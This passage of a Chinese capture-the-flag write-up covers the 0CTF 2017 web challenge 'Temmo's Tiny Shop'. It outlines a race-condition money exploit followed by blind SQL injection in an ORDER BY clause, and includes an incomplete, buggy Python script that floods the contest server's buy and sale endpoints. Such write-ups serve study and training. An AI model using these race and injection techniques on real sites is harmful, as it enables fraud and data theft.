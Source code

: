 ```yaml
---
title: 0CTF 2017 Web  WriteUP
subtitle: CTF
time: 2017.03.21 10:00:00
layout: post
catalog: true
tags:
- CTF
- Web

excerpt: 0ctf 2017 Web题目学习与分析

---
```


# 0CTF



## Temmo's Tiny Shop

这是一个小型的购物网站，然后官方的解法应该是先刷钱（竞争？）买一个Hint，然后得到flag所在的表，再对order by后面数据进行盲注，得到flag。

对于竞争，我们几个人尝试了N种竞争方式，还是没竞争出来十分迷。（尝试的有，BUY和SALE相互竞争。多个PHPSESSION相互竞争都不行orz）

其中一个脚本

```python
#!/usr/bin/env python
# coding:utf-8
import requests
import time
import threading

#拼接url
host = "http://202.120.7.197"
url1 = host + "/app.php?action=buy&id=6"
url2 = host + "/app.php?action=sale&id=6"

headers1 = {'Cookie' : 'PHPSESSID=7i10kv9ntqokeuta27hrkh4532'}
headers1 = {'Cookie' : 'PHPSESSID=7i10kv9ntqokeuta27hrkh4533'}
# s = requests.get(url1,headers=headers)
# #打印返回结果
# print(s)
# print(s.status_code,s.text)

def buy():
	try:
		while True:
			print requests.get(url1,headers=headers).content
	except:
		pass

def sale():
	try:
		while True:
			print requests.get(url2,headers=headers).content
	except:
		pass



while 1:
```